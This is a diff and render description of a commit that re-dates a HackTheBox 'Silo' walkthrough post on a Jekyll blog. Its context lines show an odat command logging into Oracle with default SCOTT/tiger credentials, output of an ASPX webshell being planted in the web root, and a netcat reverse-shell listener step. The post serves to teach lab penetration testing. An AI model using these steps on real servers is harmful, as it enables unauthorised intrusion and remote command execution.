

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-11-06-Hackthebox-Silo-Walkthrough.md, in a window 1280 px wide and 900 px high, scrolled down 7644 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; some of the changed text lies outside the part shown.

Commit message:
add 2019-11-06 silo-walkthrough

```diff
--- a/_posts/2019-11-07-Hackthebox-Silo-Walkthrough.md
+++ b/_posts/2019-11-06-Hackthebox-Silo-Walkthrough.md
@@ -4,7 +4,7 @@ title: Hackthebox Silo Walkthrough
 categories: HackTheBox
 ---
 
-![placeholder](https://inar1.github.io/public/images/2019-11-07/silo-badge.png)
+![placeholder](https://inar1.github.io/public/images/2019-11-06/silo-badge.png)
 # Explanation
 <a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
 To learn a new technique/knowledge, solve all machines (As much as possible!!).<br>
@@ -150,7 +150,7 @@ root@kali:~# odat dbmsadvisor -s 10.10.10.82 -d XE -U SCOTT -P tiger --sysdba --
 [1] (10.10.10.82:1521): Put the /usr/share/webshells/aspx/cmdasp.aspx local file in the C:\inetpub\wwwroot path (named cmdasp.aspx) of the 10.10.10.82 server
 [+] The /usr/share/webshells/aspx/cmdasp.aspx local file was put in the remote C:\inetpub\wwwroot path (named cmdasp.aspx)
 {% endhighlight %}
-![placeholder](https://inar1.github.io/public/images/2019-11-07/2019-11-06-18-39-38.png)
+![placeholder](https://inar1.github.io/public/images/2019-11-06/2019-11-06-18-39-38.png)
 
 To launch a netcat listener to receive a reverse shell.
 {% highlight shell %}
@@ -232,12 +232,12 @@ After that, download the file "SILO-20180105-221806.zip".
 {% highlight shell %}
 £%Hm8646uC$
 {% endhighlight %}
-![placeholder](https://inar1.github.io/public/images/2019-11-07/2019-11-06-19-06-31.png)
-![placeholder](https://inar1.github.io/public/images/2019-11-07/2019-11-06-19-08-14.png)
+![placeholder](https://inar1.github.io/public/images/2019-11-06/2019-11-06-19-06-31.png)
+![placeholder](https://inar1.github.io/public/images/2019-11-06/2019-11-06-19-08-14.png)
 
 By unzip, we can get a file which contains memory dump.<br>
 We can use "<a href="https://github.com/volatilityfoundation/volatility">volatility</a>" which is installed by default to do the investigation.<br>
-At first, dump the general information of "SILO-20180105-221806.dmp".
+At first, dump the profile of "SILO-20180105-221806.dmp".
 {% highlight shell %}
 root@kali:~# volatility kdbgscan -f SILO-20180105-221806.dmp
 Volatility Foundation Volatility Framework 2.6
```
Also changed, not shown: public/images/2019-11-06/2019-11-06-18-39-38.png (renamed from public/images/2019-11-07/2019-11-06-18-39-38.png), public/images/2019-11-06/2019-11-06-19-06-31.png (renamed from public/images/2019-11-07/2019-11-06-19-06-31.png), public/images/2019-11-06/2019-11-06-19-08-14.png (renamed from public/images/2019-11-07/2019-11-06-19-08-14.png), public/images/2019-11-06/silo-badge.png (renamed from public/images/2019-11-07/silo-badge.png).
